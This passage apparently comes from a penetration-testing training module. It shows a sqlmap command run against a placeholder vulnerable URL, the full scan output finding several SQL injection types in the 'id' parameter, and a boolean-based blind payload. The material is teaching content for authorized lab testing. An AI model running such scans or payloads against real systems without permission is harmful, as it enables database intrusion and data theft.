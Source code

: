![](https://academy.hackthebox.com/storage/modules/58/rOrm8tC.png)

To run SQLMap against this example, located at the example URL `http://www.example.com/vuln.php?id=1`, would look like the following:

```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814
```